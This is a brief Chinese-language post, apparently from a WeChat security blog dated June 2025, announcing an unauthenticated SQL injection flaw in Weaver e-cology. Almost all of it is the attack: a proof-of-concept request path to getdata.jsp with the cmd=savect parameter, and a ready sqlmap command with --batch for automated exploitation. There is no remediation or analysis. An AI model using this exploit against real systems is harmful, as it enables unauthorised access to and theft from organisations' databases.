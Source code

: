 #  25年6月最新-泛微e-cology 未授权SQL注入漏洞  
 天黑说嘿话   2025-06-27 08:02  
  
#### poc  
```
/js/hrm/getdata.jsp?cmd=savect&arg0=1

```  
  
直接sqlmap  
```
python3 .\sqlmap.py -u "http://xxx/js/hrm/getdata.jsp?cmd=savect&arg0=1" --batch

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/L0IIaicwUY9rtyKYXkjYQwREsvQNvyySIWMm7crrkkGJJrmqDGB8HVe2YcC2apbr0vdfdxf8lxRRjr12r5kliaPQ/640?wx_fmt=png&from=appmsg "")  
  
  

